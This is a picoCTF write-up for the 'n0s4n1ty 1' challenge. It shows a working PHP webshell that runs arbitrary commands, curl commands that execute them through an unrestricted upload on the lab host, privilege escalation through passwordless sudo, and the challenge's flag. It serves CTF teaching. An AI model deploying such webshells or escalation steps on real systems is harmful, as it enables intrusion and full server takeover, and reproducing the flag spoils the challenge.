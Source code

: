 ## 🧠 picoCTF - Detailed Writeups by [Z4B0](https://www.linkedin.com/in/mahamud-abdirahman-151493375/)

### 🖼️ n0s4n1ty 1 - Unrestricted File Upload & Privilege Escalation

**Objective:** Exploit a vulnerable file-upload feature to upload a webshell, gain code execution, and escalate privileges to read `/root/flag.txt`.

**Target URL:** `http://standard-pizzas.picoctf.net:56931`

**Tools & Resources:**

- Browser or `curl` for uploading files
- Custom PHP webshell
- Linux command-line for interacting via webshell

**Walkthrough:**

1. **Identify File Upload**

   - Navigate to the web page and locate "Upload Profile Picture" form.
   - Test with a `.php` file to see if uploads are restricted by extension.

2. **Craft & Upload Webshell**

   - Create `shell1.php` with the following code:
     ```php
     <?php
       if (isset($_REQUEST['cmd'])) {
         echo "<pre>";
         system($_REQUEST['cmd']);
         echo "</pre>";
       }
     ?>
     ```
   - Upload via the form. Ensure the file is saved under `/uploads/shell1.php`.

3. **Verify Execution**

   - Access it in browser or via `curl`:
     ```bash
     curl "http://standard-pizzas.picoctf.net:56931/uploads/shell1.php?cmd=pwd"
     ```
   - Output: `/var/www/html/uploads`

4. **Check Sudo Privileges**

   - In the webshell, run:
     ```bash
     sudo -l
     ```
   - Revealed:
     ```text
     (ALL) NOPASSWD: ALL
     ```
   - This means the webserver user `www-data` can run any command as root without a password.

5. **List & Read the Flag**
   - List root directory:
     ```bash
     sudo ls /root
     ```
   - Read the flag:
     ```bash
     sudo cat /root/flag.txt
     ```

**Final Flag:**

```
picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}
```

---

